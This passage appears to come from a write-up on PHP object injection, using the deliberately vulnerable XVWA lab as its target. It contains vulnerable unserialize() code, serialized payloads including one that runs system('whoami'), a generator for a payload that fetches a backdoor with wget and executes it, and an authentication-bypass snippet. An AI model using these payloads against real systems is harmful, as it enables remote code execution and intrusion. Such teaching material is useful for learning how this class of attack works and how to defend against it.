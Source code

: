 ```php
        $var1 = unserialize($_REQUEST['r']);
        if (is_array($var1)) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
```
Payload:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
```

This vulnerability is **extremely dangerous**, as it could also lead to an **RCE (Remote Code Execution)** exploit. An attacker could use a payload which downloads a script and starts a reverse shell connected to the web server. The payload could look like this:
```php
<?php
    class PHPObjectInjection
    {
        // CHANGE URL/FILENAME TO MATCH YOUR SETUP
        public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
    }
    echo urlencode(serialize(new PHPObjectInjection));
?>
```

Of course, there are many other methods to achieve a reverse shell once you have the ability to execute code on the target machine.

### Authentication bypass - Type juggling

```php
<?php
    include("credentials.php");
    # $adminName = "random";
    # $adminPassword = "pass";

    $data = unserialize($_COOKIE['auth']);

    if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
  echo "You logged in as admin!";
    } else {
  echo "Login failed!";
    }
?>
```

